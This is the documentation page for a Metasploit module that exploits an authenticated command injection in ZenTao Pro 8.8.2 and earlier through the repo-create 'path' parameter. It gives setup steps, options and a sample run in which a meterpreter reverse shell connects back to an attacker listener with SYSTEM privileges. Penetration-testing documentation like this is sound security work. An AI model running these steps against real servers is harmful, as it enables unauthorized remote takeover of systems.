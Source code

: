 ## Vulnerable Application
This module exploits a command injection vulnerability in ZenTao Pro 8.8.2 and earlier versions in order to execute arbitrary commands with
SYSTEM privileges.
          
The module first tries to obtain the ZenTao Pro version from /pro/user-login.html. If a vulnerable version is found,
it attempts to authenticate to the ZenTao dashboard. It then tries to execute the payload by submitting fake repositories via
the 'Repo Create' function that is accessible from the dashboard via CI>Repo.
More precisely, the module sends HTTP POST requests to '/pro/repo-create.html' that inject commands in the vulnerable 'path'
parameter which corresponds to the 'Client Path' input field.

Valid credentials for a ZenTao admin account are required. This module has been successfully tested against ZenTao 8.8.1 and 8.8.2
running on Windows 10 (XAMPP server).

Vulnerable software for testing can be downloaded here https://www.zentao.pm/download.html and here: https://sourceforge.net/projects/zentao/. The easiest way to install the application is by downloading the 'One-Click Installation Package for Windows'. The package for ZenTao 8.8.2 is available here: https://www.zentao.pm/download/scrum-tool-team-collaboration-ztp8.8.2-413.html. Installation is then just a matter of unzipping the package, launching the ZenTao Runner control panel via `Xampp\ start.exe` and finally configuring and starting the server from ZenTao Runner. Detailed instructions are available here: https://www.zentao.pm/book/zentaomanual/zentao-one-click-install-win-13.html.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/zentao_pro_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ZenTao Pro account]`
6. Do: `set PASSWORD [password for the ZenTao Pro account]`
7. Do: `set RHOSTS [IP]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.
### TARGETPATH
The path on the target where commands will be executed. The default value is `C:\`.
### TARGETURI
The base path to ZenTao Pro. The default value is `/pro/`.
### USERNAME
The username for the ZenTao Pro account to authenticate with. This option is required.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### ZenTao 8.8.2 running on Windows 10 (XAMPP server)
```
msf5 exploit(windows/http/zentao_pro_rce) > show options

Module options (exploit/windows/http/zentao_pro_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   PASSWORD    zentao123        yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.9.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SRVHOST     0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETPATH  C:\              yes       The path on the target where commands will be executed
   TARGETURI   /pro/            yes       The base path to ZenTao
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME    admin            yes       Username to authenticate with
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows (x64)


msf5 exploit(windows/http/zentao_pro_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Successfully authenticated to ZenTao 8.8.2.
[*] Executing the payload...
[*] Command Stager progress -  20.97% done (2049/9770 bytes)
[*] Command Stager progress -  41.94% done (4098/9770 bytes)
[*] Command Stager progress -  62.92% done (6147/9770 bytes)
[*] Command Stager progress -  83.89% done (8196/9770 bytes)
[*] Command Stager progress - 100.15% done (9785/9770 bytes)
[*] Sending stage (201283 bytes) to 192.168.9.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.9.14:50506) at 2020-07-08 15:01:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
